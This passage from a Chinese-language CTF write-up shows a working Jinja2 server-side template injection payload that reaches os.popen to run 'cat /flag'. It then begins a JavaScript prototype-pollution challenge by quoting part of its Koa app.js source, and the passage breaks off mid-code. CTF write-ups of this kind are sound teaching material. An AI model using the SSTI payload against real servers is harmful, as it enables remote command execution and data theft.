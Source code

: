 ```
{%print("".__class__.__bases__[0].__subclasses__()[132].__enter__.__globals__["pop"+"en"]("cat /flag").read())%}
```

得到flag
 ![在这里插入图片描述](assets/5a7b1d34d0d74f53974cb2998fc94459.png)

### OtenkiGirl(js原型链污染)

> 考点：js原型链污染

题目给了源码，我们先看app.js

```js
const env = global.env = (process.env.NODE_ENV || "production").trim();
const isEnvDev = global.isEnvDev = env === "development";
const devOnly = (fn) => isEnvDev ? (typeof fn === "function" ? fn() : fn) : undefined
const CONFIG = require("./config"), DEFAULT_CONFIG = require("./config.default");
const PORT = CONFIG.server_port || DEFAULT_CONFIG.server_port;

const path = require("path");
const Koa = require("koa");
const bodyParser = require("koa-bodyparser");

const app = new Koa();

app.use(require('koa-static')(path.join(__dirname, './static')));
devOnly(_ => require("./webpack.proxies.dev").forEach(p => app.use(p)));
app.use(bodyParser({
    onerror: function (err, ctx) {
        // If the json is invalid, the body will be set to {}. That means, the request json would be seen as empty.
        if (err.status === 400 && err.name === 'SyntaxError' && ctx.request.type === 'application/json') {
            ctx.request.body = {}
        } else {
            throw err;
        }
    }
}));

[
    "info",
```